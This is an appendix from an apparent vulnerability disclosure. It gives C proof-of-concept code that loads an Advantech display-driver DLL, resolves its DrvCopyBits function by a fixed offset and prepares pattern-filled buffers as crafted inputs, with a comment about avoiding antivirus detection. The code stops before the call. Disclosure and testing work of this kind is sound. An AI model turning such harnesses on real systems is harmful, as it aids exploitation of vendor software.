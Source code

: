 
## Appendix:

### A - POC

```c
#include <windows.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>

typedef ULONG (__stdcall *PFN_DrvCopyBits_t)(
    PVOID psoTrg,
    PVOID psoSrc,
    PVOID pco,
    PVOID pxlo,
    PRECTL prclTrg,
    PPOINTL pptlSrc
);

int main() {
    const char *dll_path = "DrvRender_x64_ADVANTECH.dll";
    DWORD rva = 0x15554; // func offset within dll got this from the drvfn table.

    // Load the DLL
    HMODULE base = LoadLibraryA(dll_path);
    if (!base) {
        fprintf(stderr, "Oh NO! LoadLibraryA failed (%lu)\n", GetLastError());
        return 1;
    }

    // Calculate function address
    PFN_DrvCopyBits_t PFN_DrvCopyBits = (PFN_DrvCopyBits_t)((BYTE *)base + rva);
    printf("dll loaded at %p, 'PFN_DrvCopyBits' at %p\n", base, PFN_DrvCopyBits);

    // structures needed
    uint8_t *ctx    = (uint8_t *)VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    uint8_t *inner  = (uint8_t *)VirtualAlloc(NULL, 0x200,  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    uint8_t *surf1  = (uint8_t *)VirtualAlloc(NULL, 0x100,  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    uint8_t *surf2  = (uint8_t *)VirtualAlloc(NULL, 0x100,  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Larger pixel buffer to potentially avoid AV detection
    uint8_t *pixels = (uint8_t *)VirtualAlloc(NULL, 0x10000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Check allocations
    if (!ctx || !inner || !surf1 || !surf2 || !pixels) {
        fprintf(stderr, "NO!!!! Memory allocation failed\n");
        goto cleanup;
    }

    // Initialize with patterns for debugging
    memset(ctx,    0x41, 0x1000);
    memset(inner,  0x42, 0x200);
    memset(surf1,  0x43, 0x100);
    memset(surf2,  0x44, 0x100);
    memset(pixels, 0x45, 0x10000);

    // initialise context structure fields
```